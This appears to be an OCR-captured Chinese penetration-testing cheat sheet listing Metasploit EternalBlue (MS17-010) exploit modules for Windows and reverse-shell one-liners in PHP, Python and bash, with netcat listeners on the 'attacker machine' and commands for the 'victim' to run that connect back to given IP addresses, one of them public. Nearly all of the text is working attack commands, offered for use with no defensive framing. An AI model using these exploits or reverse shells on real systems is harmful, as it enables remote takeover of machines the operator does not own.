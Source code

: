 ```
use exploit/windows/smb/ms17_010_eternalblue 	攻击win7-2003
use exploit/windows/smb/ms17_010_eternalblue_win8 	攻击win8
```

## shell反弹
> **反弹shell基本语句** 

### php反弹shell
```
攻击机监听
nc -lvvp 4444

要求目标机器有php然后执行
php -r '$sock=fsockopen("192.168.23.88",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

```

### python反弹shell
```
代码
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.104",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])

受害机执行
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.104",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

攻击机执行
nc -lvvp 5555

交互shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

### bash反弹shell
```
攻击机
nc -lvvp 4444

受害机
bash -i >& /dev/tcp/47.98.229.211/4444 0>&1
```


## 漏洞基础
> **Apache、** 
